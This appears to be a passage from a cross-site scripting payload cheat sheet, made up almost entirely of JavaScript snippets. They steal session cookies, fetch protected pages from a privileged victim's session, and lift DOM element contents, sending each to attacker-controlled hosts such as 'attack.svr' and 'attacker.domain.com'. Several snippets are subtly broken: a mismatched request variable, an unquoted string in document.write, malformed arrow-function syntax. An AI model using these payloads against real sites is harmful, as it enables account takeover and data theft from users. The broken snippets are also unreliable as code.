 ```javascript
document['location'] = 'http://attack.svr?stolen_token=' + document['cookie'];
```

```javascript
let req = new XMLHttpRequest();
res.open('GET', 'http://attack.svr?stolen_token=' + document.cookie);
req.send();
```

```javascript
document.write(<img src="http://attack.svr?cookie=" + document.cookie>);
```

### Grab Protected Pages

The following payloads aim to grab page data from the perspective of another target client such as an admin or privileged user whose session information may allow them to view pages the attacker does not have access to or to view page elements which are not shown to the attacker ordinarily.

```javascript
fetch('/protected_page')
	.then((page) => page.text())
	.then((text) => {
		fetch('attack.domain.com', {
			method: 'POST',
			headers: { 'Content-Type': 'application/json' },
			body: JSON.stringify({ page: text }),
		});
	});
```

```javascript
javascript:fetch("https://victim.com/page").then(a => {a.text().then(b)=>fetch("http://example.com/?data="+btoa(b))})})
```

### Grab Specific DOM Elements

These payloads can be used to extract data from specific DOM elements and return their information to an attackers web server out of band.

```javascript
fetch(
	'attacker.domain.com?data=' +
		encodeURIComponent(
			document.querySelector('.hmtlClassElementToSteal').textContent
		)
);
```

```javascript
fetch(
	'attacker.domain.com?data=' +
		encodeURIComponent(
			document.querySelector('.hmtlClassElementToSteal').textValue
		)
);
```
